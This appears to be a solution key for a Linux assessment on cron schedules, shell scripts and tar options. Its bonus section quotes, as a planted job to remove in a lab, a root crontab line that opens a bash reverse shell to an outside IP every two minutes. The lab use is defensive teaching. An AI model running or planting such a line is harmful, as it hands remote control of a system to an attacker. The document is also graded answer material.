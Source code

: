 ## Solution File: Reviewing Crons

### Assessment Solutions

#### Cron

- When will the following `cron` schedules run?

  `*/10 * * * *` 

    **Solution**: At every 10th minute.

- What event is the following `cron` a minute away from?

  `59 23 31 12 *`

    **Solution**: New Years!

What do the following hypothetical `cron` likely do?

- `0 18 * * 1-5 /home/Bob/Sales/sum_of_sales.sh`

    **Solution**: Run a script that adds up all the sales for the work day.

- `@weekly /home/sysadmin/Scripts/auto-update.sh`

    **Solution**: A weekly automated system upate.

#### Scripts

- What is a _shebang_?

    **Solution**: Is the commented file declaration at the top of a shell script.

- Is the `.sh` extension needed for shell scripts?

    **Solution**: Nope! As long as the _shebang_ is there, the file should be able to run as a script!

- What two characters should come before the filename of a script?

    **Solution**: `./`

- Jane's script has _user_ and _group_ ownership of a script with `-rw-r--r--` permissions, but she cannot get it to run. What must she do to the file before it will run?

    **Solution**: Run `chmod +x` on her file!

#### Tar

- How does the `-x` option modify the `tar` command?

    **Solution**: This option will let `tar` extract an archive!

- If a directory has `ten` files and the following command is used in it, how many files are being compressed?

  -  `tar cvvWf backups/archive.tar .`

    **Solution**: All files should be archived as they're all in `.`, the current directory!

- What option prints the full file specification of files as you interact with them?

    **Solution**: `-vv`

- Why is the `-f` option used in almost every `tar` operation?

    **Solution**: The `-f` option lets you designate a `tar` file to either _create_ or _extract_ or _list_ from.

#### Bonus

- Run: `sudo crontab -e` to open the `root` `crontab`.

- The cron you wanted to remove was:

  `*/2 * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.188.164/888 0>&1`
